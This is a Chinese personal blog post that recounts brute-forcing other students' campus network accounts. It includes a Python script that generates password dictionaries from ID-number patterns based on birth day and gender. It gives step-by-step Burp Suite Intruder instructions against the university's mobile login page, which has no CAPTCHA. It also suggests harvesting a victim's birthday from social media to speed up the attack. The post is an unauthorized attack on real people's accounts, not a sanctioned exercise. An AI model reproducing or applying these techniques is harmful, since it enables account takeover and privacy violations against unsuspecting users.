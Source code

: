```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      My First Post               # 标题 
subtitle:   记一次对校园网账号的爆破 #副标题
date:       2019-05-18              # 时间
author:     Von                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Practice
    - Web
---
```

前言
---
  上个星期开始就试图对校园网账号进行爆破。当出现验证码后试图用tesserocr对其进行识别继续爆破。然而发现简单的识别识别不出来。本来tesserocr支持
机器学习，然而由于我的菜一直没搞懂，工程本来就此停滞。但是后来在手机上查询校园网流量余额时偶然发现查询流量的网站在移动端居然没有验证码验证。于
是想到可以对移动端进行抓包然后进行爆破。

准备工作
---
  由于校园账号的默认密码是身份证后六位。而身份证后六位的前两位是生日，倒数第二位是性别识别码。所以根据不同的人来生成不同的字典可以大大地提高
速度。由下我写了个python脚本可以根据不同的用户输入生成不同的字典。
```python
def Fun(birthday = '',gender = ''):
	File = 'DICT.txt'
	num = 0
	with open(File,'w') as f:
		if birthday :
			if gender :
				for i in range(0,100):
					STR1 = birthday.zfill(2) + str(i).zfill(2)
					if gender == 'Male':
						for j in range(1,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
					else:
						for j in range(0,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
			else :
				for i in range(0,1000):
					STR1 = birthday.zfill(2) + str(i).zfill(3)
					for j in range(0,10):
						STR2 = (STR1 + str(j) + '\n')
						num += 1
					f.write(STR1 + 'X' + '\n')
					num += 1
		else:
			if gender :
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,100):
						STR2 = STR1 + str(j).zfill(2)
						if gender == 'Male':
							for k in range(1,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
						else:
							for k in range(2,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
							
			else:
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,1000):
						STR2 = STR1 + str(j).zfill(3)
						for k in range(0,10):
							f.write(STR2 + str(k) + '\n')
							num += 1
						f.write(STR2 + 'X' + '\n')
						num += 1
	print('Dictionary generation was successful with a total number of '+str(num))
					
	
if '__name__'=='__main__':
	day = input('Please input the day: ')
	gender = input('Please input the gender(Male or Female): ')
	Fun(day,gender)	
```

实战爆破
---
  首先我们使用burpsuite对移动端进行抓包。关于对移动端进行抓包这里不做赘述（原理就是在同个局域网中让手机挂上PC端的代理）。然后让手机访问查询
校园网流量的网站[10.255.44.1:8800](10.255.44.1:8800).抓包所得结果如下:
![](http://VonLYC.github.io/img/BLOG1.png)
  我们可以看出，账号密码是进行明文传输，这给我们的工作提供了便利。我们右键，将其send to intruder.在Positions中将password添加为一个攻击点。
![](http://VonLYC.github.io/img/BLOG2.png)
  再在Payloads中选择我们生成的字典。
![](http://VonLYC.github.io/img/BLOG3.png)
  再在Options中选择线程(Professional版好像默认为5)。之后就可以Start Attack了。
![](http://VonLYC.github.io/img/BLOG4.png)
  接下来的事我们就只需要让burp suite自动完成了。我们只需要在Length中筛选出与其他不同的一项，其所对应的payload就是用户的密码。
![](http://VonLYC.github.io/img/BLOG5.png)
  一般来说,如果我们知道要破解账号的生日的话，生成的字典只有5500个payload，这样一般5分钟内可以得出密码。而如果不知道对方的生日，生成的字典的
payload则有100000+个，一般就需要1，2个小时才可以得出密码。所以如果结合社会工程学从对方QQ之类的东西获取到对方的生日则可以大大的提高效率。

总结
---
  这是我写的第一篇博客，技术含量不高。纯粹是为了记录一下这项小Practice。希望以后能够通过不断的学习正确多更一些高质量的文章吧。





